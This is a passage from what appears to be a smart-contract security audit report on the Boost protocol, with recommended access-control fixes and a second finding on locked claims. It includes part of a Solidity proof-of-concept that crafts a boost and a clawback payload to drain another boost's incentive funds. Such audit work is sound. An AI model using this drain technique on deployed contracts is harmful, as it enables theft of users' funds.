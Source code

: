 ```solidity
                    allowList: allowList,
                    incentives: incentives,
                    protocolFee: 500, // 5%
                    referralFee: 1000, // 10%
                    maxParticipants: 10_000,
                    owner: address(1)
                })
            )
        );
        BoostLib.Boost memory boost2 = boostCore.createBoost(createData);
      
        bytes memory payload = 
            abi.encode(AIncentive.ClawbackPayload({target: address(2), data: abi.encode(50 ether)}));
        // @audit - Take a look here we use our crafted boost2 to drain boost1.incentives[0]
        // but this could be repeated for budgets as long as BoostCore can call the methods.
        boostCore.claimIncentiveFor{value: 0.000075 ether}(1, 0, address(0), payload , address(boost1.incentives[0]));

    }

```
**Recommendation:**
Consider restricting access to `incentives.clawback()`, `budget.clawback()` and `budget.disburse()`
from `BoostCore` calls and implement a manager role that is allowed to execute those functions. 
Budget implements `accessControls` for a manager role, but incentives 
do not, they are only callable by `onlyOwner` which is `BoostCore` due to initialization. 
Consider adding a manager role for `incentives` that can execute those functions.

## [M-01] - ClaimIncentives() gets locked if boost is created without a validator.
Boosts are allowed to be created without a validator, in this case the address of a 
validator will be `address(0)`. This causes `boostCore::claimIncentives()` to revert
at all times at this [line](https://github.com/sherlock-audit/2024-06-boost-aa-wallet-noahfigueras/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L176)
, causing the incentive to never be able to be claimed. 

**Recomendation**
Consider reverting if a validator is not setup properly. 
```solidity
    function createBoost(bytes calldata data_)
        external
        canCreateBoost(msg.sender)
        nonReentrant
        returns (BoostLib.Boost memory)
    {
        InitPayload memory payload_ = abi.decode(data_.cdDecompress(), (InitPayload));

        // Validate the Budget
        _checkBudget(payload_.budget);

        // Initialize the Boost
        BoostLib.Boost storage boost = _boosts.push();
        boost.owner = payload_.owner;
        boost.budget = payload_.budget;
        boost.protocolFee = protocolFee + payload_.protocolFee;
        boost.referralFee = referralFee + payload_.referralFee;
        boost.maxParticipants = payload_.maxParticipants;

        // Setup the Boost components
        boost.action = AAction(_makeTarget(type(AAction).interfaceId, payload_.action, true));
        boost.allowList = AAllowList(_makeTarget(type(AAllowList).interfaceId, payload_.allowList, true));
```
